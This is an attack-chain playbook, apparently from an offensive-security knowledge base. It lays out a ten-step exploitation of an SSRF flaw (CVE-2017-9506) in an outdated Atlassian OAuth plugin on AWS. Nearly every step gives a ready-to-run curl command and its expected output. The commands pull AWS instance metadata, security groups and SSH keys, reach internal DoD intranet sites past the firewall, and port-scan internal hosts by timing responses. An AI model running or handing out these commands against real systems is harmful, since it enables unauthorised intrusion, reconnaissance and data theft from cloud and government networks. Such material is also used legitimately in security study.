

---
tags:
  - ssrf
  - aws
  - metadata
  - dod
  - atlassian
  - jira
  - confluence
  - oauth
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Reconnaissance]]'
verified: false
platforms:
  - Web
  - AWS
  - Cloud
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-SSRF-in-Atlassian-OAuth-Plugin]]'
  - '[[procedures/Retrieve-AWS-Instance-Metadata-via-SSRF]]'
  - '[[procedures/Pivot-to-Internal-DoD-Networks-via-SSRF]]'
step_count: 10
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unsecured Credentials]]'
  - '[[System Information Discovery]]'
  - '[[Gather Victim Host Information]]'
updated_at: '2025-12-14T04:08:55.320Z'
description: >-
  Multi-stage SSRF attack leveraging an outdated Atlassian OAuth Plugin in a
  Jira/Confluence instance to access AWS instance metadata and pivot to internal
  DoD networks.
skill_level: intermediate
impact_level: high
id: 817b7981-56fe-4c88-8ba0-da8e8256c21c
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unsecured Credentials]]'
  - '[[System Information Discovery]]'
  - '[[Gather Victim Host Information]]'
---
# SSRF Exploitation in Atlassian OAuth Plugin to Access AWS Metadata and DoD Internal Networks

Multi-stage attack chain demonstrating exploitation of a Server-Side Request Forgery (SSRF) vulnerability in an outdated Atlassian OAuth Plugin within a Jira/Confluence instance hosted on AWS EC2 for the U.S. Department of Defense. The attack begins with identifying the vulnerable endpoint, progresses to extracting sensitive AWS metadata, and culminates in pivoting to internal DoD networks, bypassing firewalls and accessing restricted resources.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 10 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-ssrf-aws-hostname]]
- [[commands/curl-ssrf-aws-public-ip]]
- [[commands/curl-ssrf-instance-document]]
- [[commands/curl-ssrf-pkcs7-signature]]
- [[commands/curl-ssrf-network-owner-id]]
- [[commands/curl-ssrf-security-groups]]
- [[commands/curl-ssrf-ssh-keys]]
- [[commands/curl-ssrf-internal-dod-site]]
- Browser or HTTP client for testing

### Target Environment

- Atlassian Jira/Confluence on AWS EC2
- Outdated OAuth Plugin (pre-1.9.12 or 2.0.4)
- Exposed web application
- AWS Instance Metadata Service enabled
- Internal DoD networks firewalled

### Initial Access Requirements

- Public access to the Jira/Confluence instance
- No authentication required for the OAuth endpoint
- Network position: External attacker

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Exploit-SSRF-in-Atlassian-OAuth-Plugin]]

**Objective**: Discover the SSRF-vulnerable endpoint in the OAuth Plugin to confirm arbitrary URL fetching.

**Instructions**: Inspect the application for the /plugins/servlet/oauth/users/icon-uri endpoint. Test with a benign external URL to verify SSRF behavior.

Use [[commands/curl-ssrf-test-endpoint]] to probe:

```bash
curl "https://target-domain/plugins/servlet/oauth/users/icon-uri?consumerUri=http://example.com/favicon.ico"
```

**Expected Output**: Response containing fetched content from the arbitrary URL, indicating SSRF.

**Success Indicators**:
- Fetched external resource appears in response
- No URL validation errors

### Step 2: Exploit SSRF to Access AWS Metadata Hostname
procedure: [[procedures/Retrieve-AWS-Instance-Metadata-via-SSRF]]

**Objective**: Retrieve the internal AWS instance hostname via the metadata service.

**Instructions**: Craft a request targeting the AWS metadata endpoint for hostname.

Execute [[commands/curl-ssrf-aws-hostname]]:

```bash
curl "https://target-domain/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/latest/meta-data/hostname"
```

**Expected Output**: Internal hostname like "ip-172-31-12-254.us-east-1.compute.internal".

**Success Indicators**:
- Internal hostname leaked
- Confirms access to 169.254.169.254

### Step 3: Retrieve AWS Public IPv4 Address
procedure: [[procedures/Retrieve-AWS-Instance-Metadata-via-SSRF]]

**Objective**: Obtain the public IP address of the AWS instance.

**Instructions**: Target the public-ipv4 metadata endpoint.

Run [[commands/curl-ssrf-aws-public-ip]]:

```bash
curl "https://target-domain/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/latest/meta-data/public-ipv4"
```

**Expected Output**: Public IP address, e.g., "54.123.45.67".

**Success Indicators**:
- Public IP disclosed
- Enables further targeting

### Step 4: Access AWS Instance Identity Document
procedure: [[procedures/Retrieve-AWS-Instance-Metadata-via-SSRF]]

**Objective**: Extract comprehensive instance details including private IP, ID, account, and region.

**Instructions**: Query the dynamic instance-identity document.

Use [[commands/curl-ssrf-instance-document]]:

```bash
curl "https://target-domain/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/latest/dynamic/instance-identity/document"
```

**Expected Output**: JSON with details like {"instanceId": "i-63914e47", "accountId": "993671966739", "region": "us-east-1"}.

**Success Indicators**:
- JSON document returned
- Sensitive identifiers leaked

### Step 5: Retrieve PKCS7 Signature
procedure: [[procedures/Retrieve-AWS-Instance-Metadata-via-SSRF]]

**Objective**: Obtain the cryptographic PKCS7 signature for instance verification.

**Instructions**: Access the pkcs7 endpoint.

Execute [[commands/curl-ssrf-pkcs7-signature]]:

```bash
curl "https://target-domain/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/latest/dynamic/instance-identity/pkcs7"
```

**Expected Output**: Base64-encoded PKCS7 signature data.

**Success Indicators**:
- Signature retrieved
- Potential for forgery or verification bypass

### Step 6: Extract Network Interface Owner ID
procedure: [[procedures/Retrieve-AWS-Instance-Metadata-via-SSRF]]

**Objective**: Confirm account ownership via network interface details (MAC redacted in report).

**Instructions**: Target the owner-id for a specific MAC address.

Run [[commands/curl-ssrf-network-owner-id]] (replace MAC with discovered value):

```bash
curl "https://target-domain/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/latest/meta-data/network/interfaces/macs/XX:XX:XX:XX:XX:XX/owner-id"
```

**Expected Output**: Owner ID like "993671966739".

**Success Indicators**:
- Matches account ID from instance document
- Confirms ownership

### Step 7: Access Security Groups Information
procedure: [[procedures/Retrieve-AWS-Instance-Metadata-via-SSRF]]

**Objective**: Enumerate security groups for attack path analysis.

**Instructions**: Query security groups for the interface.

Use [[commands/curl-ssrf-security-groups]]:

```bash
curl "https://target-domain/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/latest/meta-data/network/interfaces/macs/XX:XX:XX:XX:XX:XX/security-groups"
```

**Expected Output**: Groups like "HTTP, Devforce SSH, devforce_internal".

**Success Indicators**:
- Security configurations exposed
- Identifies open ports/services

### Step 8: Retrieve SSH Public Keys
procedure: [[procedures/Retrieve-AWS-Instance-Metadata-via-SSRF]]

**Objective**: Extract SSH keys for potential lateral movement.

**Instructions**: Fetch the first public key.

Execute [[commands/curl-ssrf-ssh-keys]]:

```bash
curl "https://target-domain/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key"
```

**Expected Output**: SSH public key content, e.g., "ssh-rsa AAAAB3NzaC1yc2E...".

**Success Indicators**:
- Keys leaked
- Enables SSH access if private keys are obtained elsewhere

### Step 9: Tunnel to Internal DoD Websites
procedure: [[procedures/Pivot-to-Internal-DoD-Networks-via-SSRF]]

**Objective**: Bypass firewalls to access internal DoD intranet sites.

**Instructions**: Proxy requests to internal HTTPS URLs.

Run [[commands/curl-ssrf-internal-dod-site]] (use redacted internal URLs):

```bash
curl "https://target-domain/plugins/servlet/oauth/users/icon-uri?consumerUri=https://internal-dod-site/"
```

**Expected Output**: Content from internal site, e.g., DoD intranet pages.

**Success Indicators**:
- Internal content fetched
- Firewall bypass confirmed

### Step 10: Perform Port Scanning via Response Times
procedure: [[procedures/Pivot-to-Internal-DoD-Networks-via-SSRF]]

**Objective**: Enumerate open ports on localhost/internal services using XSPA (eXternal Port Scanning via Attacker).

**Instructions**: Send multiple SSRF requests to internal ports and measure response times.

Use variations of [[commands/curl-ssrf-internal-dod-site]] targeting ports like :80, :443, :22:

```bash
curl "https://target-domain/plugins/servlet/oauth/users/icon-uri?consumerUri=http://localhost:22/" -w "%{time_total}\n"
```

**Expected Output**: Faster responses for open ports, slower for closed.

**Success Indicators**:
- Differential response times identify open ports
- Enables targeted pivoting

## Attack Chain Summary

### Key Achievements

1. Confirmed SSRF in OAuth Plugin (CVE-2017-9506)
2. Leaked AWS metadata including IDs, IPs, keys, and security groups
3. Pivoted to internal DoD networks, accessing firewalled resources and bypassing SSL issues
4. Demonstrated potential for further attacks like lateral movement

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Unsecured Credentials]] Unsecured Credentials
- [[System Information Discovery]] System Information Discovery
- [[Gather Victim Host Information]] Gather Victim Host Information

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery
- [[Reconnaissance]] Reconnaissance

---

*Last updated: 2023-10-01T00:00:00Z*
